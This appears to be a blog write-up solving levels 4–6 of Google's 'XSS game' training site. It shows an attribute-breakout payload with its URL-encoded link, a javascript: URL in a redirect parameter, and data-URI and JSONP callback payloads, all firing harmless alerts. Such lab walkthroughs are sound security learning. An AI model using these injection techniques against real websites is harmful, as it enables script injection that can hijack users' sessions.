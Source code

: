 ```yaml
---
title: XSS game v2
published: true 
tags: XSS
---
```


# Level 4
Firsty I spend some time to get to know how this app work. App flow can be described in following steps:
1. User give number of seconds, after that click 'Create timer' button.
2. Page where timer run is shown up. After all user is redirected to the beginning.

Interesting part is timer image:
```html
<img src="/static/loading.gif" onload="startTimer('<user input>');">
```

An xss is possible because user input is directly passed to html code without any encoding. To call an alert box use following payload:
```
1');alert('1
```
Passing it to user input will create following img tag:
```html
<img src="/static/loading.gif" onload="startTimer('1');alert('1');">
```
It is a valid image tag, firstly will be executed startTimer function and after 1 second an alert box will appear on the screen. If you want create malicious link use url encoding:
```
https://xss-game.appspot.com/level4/frame?timer=%31%27%29%3b%61%6c%65%72%74%28%27%31
```

# Level 5
User input isn't processed, but in sign up page is interesting param in url:
```
https://xss-game.appspot.com/level5/frame/signup?next=confirm
```
Change 'confirm' to
```
javascript:alert(1)
```
then click next, alret box will be dispalyed. 

# Level 6
It can be solved with following payload:
```
data:text/plain,alert('xss') 
or 
Https://google.com/jsapi?callback=alert
```
